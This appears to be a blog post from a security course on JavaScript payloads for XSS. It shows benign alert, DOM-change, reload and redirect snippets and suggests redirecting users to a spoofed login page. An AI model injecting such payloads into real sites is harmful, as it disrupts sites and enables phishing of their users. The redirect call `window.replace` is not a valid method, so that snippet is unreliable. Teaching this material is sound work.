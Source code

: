 ```yaml
---
layout: post
title: JavaScript Payloads
subtitle: Week 18
tags: [XSS, exploit]
---
```


You've discovered a XSS vulnerability on a page. What next?

*Submit a confidential report.*

Below are a few simple snippets of JavaScript snippets that can be used for evil.

Of course, you need to be familiar with Javascript first...

- <https://www.w3schools.com/js/tryit.asp?filename=tryjs_intro_inner_html>
- <https://developer.mozilla.org/en-US/docs/Web/JavaScript/A_re-introduction_to_JavaScript>

<https://jsfiddle.net/> is a convenient way to execute JavaScript in your web browser.

*****

# Client Payloads

{% highlight javascript linenos %}

// this is a comment. 

/*
 * BTW, there's no difference between useing single quotes (')
 * or double quote (") for strings in Javascript.
 *
 * Semicolons are optional.
 */
// usage: setTimeout(function, milliseconds);
setTimeout(function() {
  alert("Have a wonderful day! ^_^");
}, 5000);

// usage: setInterval(function, milliseconds);
setInterval(function() {
  alert("Don't forget to be awesome.");
}, 5000);

document.getElementsByTagName('h1')[0].innerText = 'Just wanted to say hello :)';


// these functions will DOS your site!
location.reload();
window.replace('http://www.staggeringbeauty.com/');

{% endhighlight %}

Some exploits require more setup. For example, you can inject `window.replace` to have users be sent to a spoofed login page. <https://tools.kali.org/information-gathering/set>
